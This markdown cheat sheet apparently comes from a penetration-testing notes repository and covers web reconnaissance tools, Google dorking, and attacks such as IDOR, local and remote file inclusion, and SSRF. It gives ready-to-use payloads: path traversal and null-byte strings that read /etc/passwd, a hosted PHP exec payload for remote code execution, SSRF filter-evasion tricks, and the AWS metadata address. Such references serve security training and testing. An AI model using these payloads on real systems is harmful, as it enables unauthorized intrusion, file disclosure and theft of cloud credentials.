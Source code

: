 # Useful Programs

- ffuf/GoBuster/Dirb: Recursively request HTTP endpoints with different sub-pages or form values
- BurpSuite: HTTP(S) request related exploits
- RequestBin.com: Monitor HTTP requests on a site

## Command Syntaxes

### Curl

```bash
curl
  -X METHOD
  -F "FORM=DATA"
  -H "Content-Type: TYPE"
  -D "{JSON:DATA}"
  --url "URL"
```

### ffuf
```bash
ffuf
  -w WORDLIST
  -u https://example.com/FUZZ
  -X METHOD
  -d "json=FUZZ"
  -H "Content-Type: TYPE"
  -H "Cookie: name=value"
  -mr "match regex for valid"
  -fc FILTER_OUT_STATUS_CODE
```

### dirb
```bash
dirb
  https://example.com/ WORDLIST
```

### gobuster
```bash
gobuster
  dir 
  --url https://example.com/ 
  -w WORDLIST
```

## Discovery Methods

### Manual
- `robots.txt`: Contains directories not cached by search engines
- `favicon`: Could contain leftover framework build icon [https://wiki.owasp.org/index.php/OWASP_favicon_database]
- `sitemap.xml`: Contains all directories to be cached by search engines

### Google Dorking
- `site:example.com`
- `inurl:admin`
- `filetype:pdf`
- `intitle:admin`

### Wappalyzer
- [Wappalyzer](https://www.wappalyzer.com/): Automatically finds site frameworks, platforms, and libraries

### Automated
- See "Useful Programs"

## Attacks
### Insecure Direct Object Reference (IDOR)
Insecure Direct Object Reference - Changing parameter inputs to effect the returned value
#### Vulnerabilities and Exploits
- [example.com/profile?user_id=100](https://example.com/profile?user_id=100)
  - **Exploit:** [example.com/profile?user_id=1](https://example.com/profile?user_id=1)
#### Notes
- Could be encrypted in MD5, Base64, and other hashes

### LFI (Local File Inclusion)
Local File Inclusion - Accessing files in a PHP file server outside of the intended directory
- `/index.php?file=/etc/passwd` - Traditional
- `/index.php?file=../../etc/passwd` - Directory Based
- `/index.php?file=SubFolder/../../etc/passwd` - Sub-Folder Based
- `/index.php?file=../../etc/passwd0x00` - Null Byte 1
- `/index.php?file=../../etc/passwd%00` - Null Byte 2
- `/index.php?file=....//....//etc//passwd` - Filtered
#### Tips
- Try switching request methods

### RFI (Remote File Inclusion)
Remote File Inclusion - Runs PHP file from remote server [RCE]
- (Host PHP at [http://example.com/payload.txt](http://example.com/payload.txt))
  - `/index.php?file=http://example.com/payload.txt`
#### Quick Payload Hosting
```bash
echo "<?php
print exec('hostname');
?>" > payload.txt
python3 -m http.server
# Replace 0.0.0.0 with public IP
```

### SSRF (Server-Side Request Forgery)
Server-Side Request Forgery - Change request URLs to access different data or steal hidden headers
#### Vulnerabilities and Exploits
- https://example.com/form?server=http://api.example.com/req - Link
  - Exploit - https://example.com/form?server=http://api.example.com/admin
  - Requests - http://api.example.com/admin
- https://example.com/form?server=api - Subdomain
  - Exploit - https://example.com/form?server=api.example.com/admin?
  - Requests - http://api.example.com/admin?https://example.com/form
- https://example.com/member?path=/req - Path
  - Exploit - https://example.com/member?path=/../admin
  - Requests - http://api.example.com/admin
#### Defense Evasion
- Domain rewrites
  - [Rule denies if using a blocked subdomain (admin.example.com)]
  - localhost
  - 0.0.0.0
  - 127.0.0.1
  - 127.0.0.1.nip.io
- Fake Domain
  - [Rule only accepts if domain starts with example.com]
  - Host enemy API on example.com.yourdomain.com
- Open Redirect
  - [Rule only accepts if domain starts with example.com]
  - [https://example.com/link?url=https://anything.com redirects to https://anything.com]
  - Host enemy API at anything.com
- Sub-Directories
  - [Rule denies if page starts with /admin]
  - Request "/x/../admin"
#### Notes
- 169.254.169.254 - Contains Metadata on AWS Machines
